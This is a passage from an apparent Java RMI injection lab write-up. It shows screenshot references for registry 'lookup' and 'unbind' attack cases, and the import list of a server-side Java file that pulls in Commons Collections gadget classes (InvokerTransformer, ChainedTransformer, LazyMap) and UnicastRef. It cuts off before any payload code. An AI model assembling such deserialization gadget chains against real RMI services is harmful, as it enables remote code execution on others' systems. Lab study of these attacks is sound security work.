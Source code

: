 **case2 - lookup**

![image-20241125190051870](./main.assets/rmi10.png)

**case4 - unbind**

![image-20241125191936607](./main.assets/rmi11.png)

```java
package rmi_injection_labs1.server;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import sun.rmi.server.UnicastRef;

import java.io.ObjectOutput;
import java.lang.annotation.Documented;
import java.lang.reflect.Constructor;
```